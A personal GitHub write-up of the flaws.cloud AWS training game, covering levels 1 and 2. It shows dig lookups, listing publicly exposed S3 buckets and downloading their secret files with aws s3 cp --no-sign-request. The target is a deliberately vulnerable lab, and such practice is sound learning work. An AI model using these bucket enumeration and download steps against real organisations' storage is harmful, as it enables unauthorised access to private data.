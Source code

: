 # Intro-CloudHacking
This is my notes to learn about cloud hacking, this is only introductory, and still there are a lot of things I need to learn


## Create an Amazon Account and generate your access id and secret access

Once you have signup for an account, go to Security Settings
![image](https://github.com/user-attachments/assets/fc4e09cc-19d6-4b96-8bcb-675a03372618)

And generate your access key, it will spit out an access key and secret access key which will be like a username and password.

## Install aws cli 

To install the aws in your machine, you can go the amazon aws install documentation, provided by official amazon documentation

https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html

If you are using kali you can also use this copy and paste this script
```
curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "awscliv2.zip"
unzip awscliv2.zip
sudo ./aws/install
```

Once installed, we can now configure to use our access key using the command

```
aws configure
```
Then paste your keys

![image](https://github.com/user-attachments/assets/6bd36beb-5de8-4dd9-8dd9-f4dda623ffd2)

We are going to learn hacking using a game,  so go to 

```
http://flaws.cloud/
```

![image](https://github.com/user-attachments/assets/27e4ec27-430e-46ed-8dfc-7103ec76b24c)


Shout out to the developers of this site, you are amazing

Now lets, start hacking

## Level 1 
url: http://flaws.cloud
![image](https://github.com/user-attachments/assets/480a4f26-646e-42ff-9732-86f4d22dc4aa)

In my kali, we need to perform a reverse DNS lookup on the website, to do that I used dig 

```
dig flaws.cloud
```
![image](https://github.com/user-attachments/assets/12bc6e7f-8ec4-4262-af01-9d9e4e9b9403)

It would spit out different IP addresses, we can check them one by one,  like

```
dig -x 52.92.133.211
```

![image](https://github.com/user-attachments/assets/e938f79b-bc80-4e0c-b1ee-edc6f380f67d)

I want to check every IP addresses, since I am lazy, I saved the results to a file and parsed them using awk to get only the ip adddreesses.

I copy/pasted the dig results to a file and they should look like this

![image](https://github.com/user-attachments/assets/025df057-1006-4a09-b194-a4a0615f9031)


```
cat flaws.cloud.dig | awk -F ' ' '{print $NF}'

```

to spit out only the ip addresses, we can redirect the results to a file using the ```>``` redirector

```
cat flaws.cloud.dig | awk -F ' ' '{print $NF}'>> ips

```
To check if the IP addresses is saved correctly, we can view it first

![image](https://github.com/user-attachments/assets/e529bab4-74fd-4341-a341-c796227cfb1d)


Now, to use dig in every IP addresses we can do

```
for i in $(cat ips.dig);do dig -x $i;done
```

![image](https://github.com/user-attachments/assets/0ec487af-b7d8-4115-9bca-2dde0572d9d6)

Now we know, all of them are pointing to the the same s3 bucket.

We can try and connect to the site this website, hosted in s3 by doing

```
aws s3 ls s3://flaws.cloud
```
![image](https://github.com/user-attachments/assets/5b5d4dd2-3ec0-46b0-ae7c-10c2cc549c20)


### Note
> This level does not require keys to be set up, however, since I already configured aws keys, I was able to access the files
> You will  get an error if your aws keys are not configured, you need to add ```--no-sign-request``` to your command

I went ahead and downloaded the secretfile, using this command, 

```
aws s3 cp s3://flaws.cloud/secret-dd02c7c.html --no-sign-request secret.html
```
> the `secret.html` would be the downloaded file name

![image](https://github.com/user-attachments/assets/6269c66e-0264-492b-9746-93ce7c61e3a2)

Then I opened it in my terminal using

```
                                                                                                                                                                 
┌──(aaron㉿kali)-[~/cloud-hacking/level1]
└─$ cat secret.html| html2text
                      _____  _       ____  __    __  _____
                     |     || |     /    ||  |__|  |/ ___/
                     |   __|| |    |  o  ||  |  |  (   \_
                     |  |_  | |___ |     ||  |  |  |\__  |
                     |   _] |     ||  _  ||  `  '  |/  \ |
                     |  |   |     ||  |  | \      / \    |
                     |__|   |_____||__|__|  \_/\_/   \___|
              ****** Congrats! You found the secret file! ******
Level 2 is at http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
                                                                              
```
![image](https://github.com/user-attachments/assets/1e42a11b-5730-4d6d-ae14-5f25b97f1aed)

> If you dont have html2text, you can install them in kali using
> ```sudo apt install html2text```
Now we can proceed to level 2.
>

##  Level 2
URL : http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
I typed in my terminal, and was able to access the bucket

```
┌──(aaron㉿kali)-[~/cloud-hacking/level2]
└─$ aws s3 ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud       
2017-02-26 21:02:15      80751 everyone.png
2017-03-02 22:47:17       1433 hint1.html
2017-02-26 21:04:39       1035 hint2.html
2017-02-26 21:02:14       2786 index.html
2017-02-26 21:02:14         26 robots.txt
2017-02-26 21:02:15       1051 secret-e4443fc.html

```

> I replaced the 'http' to 's3'
> I was able to access the the s3 resource because my aws are configured
> The intended solution should to learn how to configure aws keys and we already done that in our set up

Now, we'll copy the secret again to our local machine using `cp` command

```
aws s3 cp s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/secret-e4443fc.html secret.html

```

![image](https://github.com/user-attachments/assets/84e7d157-b3f9-492a-9558-2465070e381a)

Then we open the file in our terminal again using

```
                                                                                                                                                                 
┌──(aaron㉿kali)-[~/cloud-hacking/level2]
└─$ cat secret.html| html2text
                      _____  _       ____  __    __  _____
                     |     || |     /    ||  |__|  |/ ___/
                     |   __|| |    |  o  ||  |  |  (   \_
                     |  |_  | |___ |     ||  |  |  |\__  |
                     |   _] |     ||  _  ||  `  '  |/  \ |
                     |  |   |     ||  |  | \      / \    |
                     |__|   |_____||__|__|  \_/\_/   \___|
              ****** Congrats! You found the secret file! ******
Level 3 is at http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
                                                                            
```

![image](https://github.com/user-attachments/assets/84146a37-8e1c-4fc0-9c0c-513144d2881e)

## Level 3
url : http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
